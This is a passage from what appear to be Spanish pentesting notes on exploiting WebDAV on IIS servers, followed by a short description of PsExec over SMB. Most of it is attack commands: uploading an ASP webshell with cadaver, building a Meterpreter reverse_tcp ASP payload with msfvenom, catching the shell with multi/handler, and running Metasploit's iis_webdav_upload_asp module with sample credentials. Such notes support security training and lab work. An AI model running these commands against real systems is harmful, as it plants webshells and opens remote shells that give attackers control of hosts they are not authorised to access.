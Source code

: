 #### cadaver

Cadaver es una herramienta para clientes WebDAV, que soporta una interfaz estilo línea de comandos. Admite operaciones como subir archivos, editarlos, moverlos, etc.

```bash
$ cadaver http://<IP-TARGET>/webdav
$ put /usr/share/webshells/asp/webshell.asp
```

#### Metasploit

Creamos el payload utilizando _msfvenom_

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP-LOCAL> LPORT=<LOCAL-PORT> -f asp > shell.asp
```

Subimos el payload usando _cadaver_

```bash
$ cadaver http://<IP-TARGET>/webdav
put /root/shell.asp
```

```bash
$ msfconsole
msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set LHOST <IP-LOCAL>
msf6> set LPORT <LOCAL-PORT>
msf6> run
```

Usando solo _mestasploit_

```bash
$ msfconsole
msf6> use exploit/windows/iis/iis_webdav_upload_asp
msf6> set HttpUsername bob
msf6> set HttpPassword password_123321
msf6> set rhost <IP-TARGET>
msf6> set rport <PORT-TARGET>
msf6> set path /webdav/metasploit.asp
msf6> set lhost <IP-LOCAL>
msf6> set lport <PORT-LOCAL>
msf6> run
```

### SMB

#### PsExec

- PsExec es un ligero sustituto de telnet desarrollado por Microsoft que permite ejecutar procesos en sistemas Windows remotos utilizando las credenciales de cualquier usuario.
- La autenticación de PsExec se realiza a través de SMB.
- Podemos utilizar la utilidad PsExec para autenticarnos con el sistema de destino legítimamente y ejecutar comandos arbitrarios o lanzar un comando remoto.
- Es muy similar a RDP, sin embargo, en lugar de controlar el sistema remoto a través de GUI, los comandos se envían a través de CMD.
